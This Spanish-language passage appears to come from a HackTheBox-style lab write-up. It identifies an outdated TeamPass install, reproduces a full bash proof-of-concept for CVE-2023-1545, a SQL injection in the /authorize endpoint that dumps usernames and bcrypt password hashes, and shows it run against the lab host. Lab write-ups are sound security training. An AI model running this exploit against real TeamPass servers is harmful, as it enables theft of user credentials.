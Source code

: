 El copyright es del 2022, y viendo que el actual marca 2025 ya podemos ver que la versión de esto está *muy* desactualizada. Buscando por vulnerabilidades, encontraremos a `CVE-2023-1545`, que se trata de una [inyección SQL en el endpoint de autenticación /authorize](https://huntr.com/bounties/942c015f-7486-49b1-94ae-b1538d812bc2). En el bounty del bug tenemos un PoC que extrae nombres de usuarios y hashes incluso:

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

Probándolo contra la web que tenemos, veremos que:

```bash
❯ ./dump.sh http://checker.htb:8080/
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

La contraseña del usuario administrador es robusta, pero la de bob no:
